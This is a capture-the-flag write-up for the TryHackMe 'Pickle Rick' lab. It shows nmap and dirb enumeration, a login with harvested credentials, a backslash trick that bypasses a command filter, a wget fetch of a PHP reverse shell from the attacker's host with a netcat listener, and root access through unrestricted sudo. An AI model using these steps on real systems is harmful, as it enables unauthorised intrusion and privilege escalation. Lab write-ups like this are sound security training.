 <p align="center">
  THM : Pickle Rick<br>
  Difficulty : Easy<br>
  <img src="https://i.imgur.com/3ypKR1f.png">
</p>

## Summary
- [NMAP Scan](#nmap-scan)
- [Manual Website Enumeration](#manual-website-enumeration)
- [Dirb Scan](#dirb-scan)
- [Getting a shell](#getting-a-shell)
- [Find flags](#find-flags)
- [Conclusion](#conclusion)

## NMAP Scan
```
# Nmap 7.92 scan initiated Fri Aug 19 23:14:31 2022 as: nmap -A -p- -oN nmapResults.txt 10.10.99.97
Nmap scan report for 10.10.99.97
Host is up (0.028s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 66:c4:52:9e:e4:3a:d7:d1:cb:3f:d7:0e:e6:09:82:6e (RSA)
|_  256 3c:31:4a:49:af:7d:8e:75:70:40:db:04:69:d5:18:e6 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 19 23:14:48 2022 -- 1 IP address (1 host up) scanned in 17.18 seconds
```
## Manual website enumeration
If we go to the index page of the website, we can see that Rick is talking about a password that he forgot.
![alt text](https://i.imgur.com/1xrSiU4.png)  

Looking at the source code of the page, we can see that Rick left a comment containing a username.  
![alt text](https://i.imgur.com/1YaCAlY.png)  
So now we have a username : **R1ckRul3s**

One of the first things I look for when i'm enumerating a website is the robot.txt file. So let's see if there is a robot.txt file on this web server.  
![alt text](https://i.imgur.com/cqP0pux.png)  
And we found a strange looking strings... It's not a page of the webserver so.. Maybe the password that Rick lost ? Let's write it down for the moment.  
## Dirb Scan
First I tried a simple dirb scan but it didn't found any interesting pages, so I decided to try using the -X parameter to search for page with extensions like so : ```dirb http://10.10.99.97/ -X .php```  
```
┌──(attacker㉿AttackBox)-[~/Bureau/CTF/Pickle_Rick]
└─$ dirb http://10.10.99.97/ -X .php     

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Aug 19 23:20:38 2022
URL_BASE: http://10.10.99.97/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.99.97/ ----
+ http://10.10.99.97/denied.php (CODE:302|SIZE:0)
+ http://10.10.99.97/login.php (CODE:200|SIZE:882)
```
And we found a login.php page ! (The denied.php page redirects us to login.php)  
So let's go to this page and try to login with the informations we gathered :
![alt text](https://i.imgur.com/reIQn7I.png)  

Using **R1ckRul3s** as login and **Wubbalubbadubdub** as password, we are redirected to a portal.php page.  
![alt text](https://i.imgur.com/B3hfAUr.png)  

We cannot access any pages using the menu on top of the page. But here we have an input field that seems to be used to run commands. So let's try using **whoami**.  
![alt text](https://i.imgur.com/2u9jgra.png)  
We see that we can run linux commands. So we can try to use some other commands... I tried some useful commands and , we can run ls, wget, sudo -l, and cat, but there is some filters that prevent from using some commands , like for cat.  
We can easily bypass those filters by just putting a '\\' inside the command, like so : **c\at file**.  
Now we have multiple choices... I could just find the different flags using this command input, but I want to get a reverse shell, it will be more easier to search on the machine.  
Like I said, we can use sudo -l and ...  
![alt text](https://i.imgur.com/FKO4Icb.png)  
Yes... www-data can run any commands as root, without password.

## Getting a shell
I tried to download a reverse shell to the machine using wget, but it didn't work, because www-data don't have write premissions to /var/www/html. So I just ran the same command as sudo like so : ```sudo wget [my ip]/php-reverse-shell.php```.
Then I just set up a netcat listener on my machine, I entered http://[machine ip]/php-reverse-shell.php in the URL of my web browser, and I got a reverse shell.
Now I can just run ```python3 -c 'import pty; pty.spawn("/bin/bash")'``` and then ```sudo su``` to get a shell as root.  

## Find flags
Now I can get the 3 flags (ingredients for the potion that Rick needs) :  
What is the first ingredient Rick needs ? : **cat /var/www/html/Sup3rS3cretPickl3Ingred.txt**  
Whats the second ingredient Rick needs ? : **cat /home/rick/second\ ingredients**  
Whats the final ingredient Rick needs ? : **cat /root/3rd.txt**  

## Conclusion
In this CTF, we see that it can be useful to read the source code of pages on a web server, we can find useful informations, even if there is no credentials we can find CMS versions, links to other pages...  
I also learned that it is very easy for an attacker to get a full control of the machine if the user www-data has too much permissions. It is very important to manage permissions properly, www-data should not have the right to run any command as root.
Also, even if there is filters on command input, there is sometimes a way to bypass it.

